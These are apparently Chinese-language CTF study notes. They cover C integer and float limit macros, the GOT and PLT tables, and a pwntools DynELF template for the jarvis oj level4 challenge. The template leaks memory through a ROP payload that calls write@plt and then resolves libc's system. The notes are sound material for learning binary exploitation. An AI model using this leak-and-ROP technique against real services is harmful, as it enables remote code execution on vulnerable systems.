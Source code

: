 表示无符号整数类型的极限值符号

| 类型名称           | 下限 | 上限       |
| ------------------ | ---- | ---------- |
| unsigned char      | 0    | UCHAR_MAX  |
| unsigned short     | 0    | USHRT_MAX  |
| unsigned int       | 0    | UINT_MAX   |
| unsigned long      | 0    | ULONG_MAX  |
| unsigned long long | 0    | ULLONG_MAX |

表示浮点类型的极限值符号

| 类型名称    | 下限     | 上限     |
| ----------- | -------- | -------- |
| float       | FLT_MIN  | FLT_MAX  |
| double      | DBL_MIN  | DBL_MAX  |
| long double | LDBL_MIN | LDBL_MAX |

### PLT & GLT

[Link](https://blog.csdn.net/linyt/article/details/51635768)

| 简称 | 全称                 | Desc                             |
| ---- | -------------------- | -------------------------------- |
| GOT  | Global Offset Table  | 存放函数地址的数据表，重局偏移表 |
| PLT  | Procedure Link Table | 额外代码段表，称为程序链接表     |

联合出手完成重定位。

![](imgs/C01.jpg "Optional title")

### DynELF

https://blog.csdn.net/qq_43986365/article/details/95081996
模板, jarvis oj - level4

```py
def leak(address):
    payload=flat(pad, writeplt, ret1, 1, address,4)
    io.sendline(payload)
    leak_sysaddr=io.recv(4)
    #print "%#x => %s" % (address, (leak_sysaddr or '').encode('hex'))   这里是测试用，可省略。
    return leak_sysaddr
d = DynELF(leak, elf=ELF("对应文件"))
sysaddr=d.lookup("system","libc")
```

### 常用函数
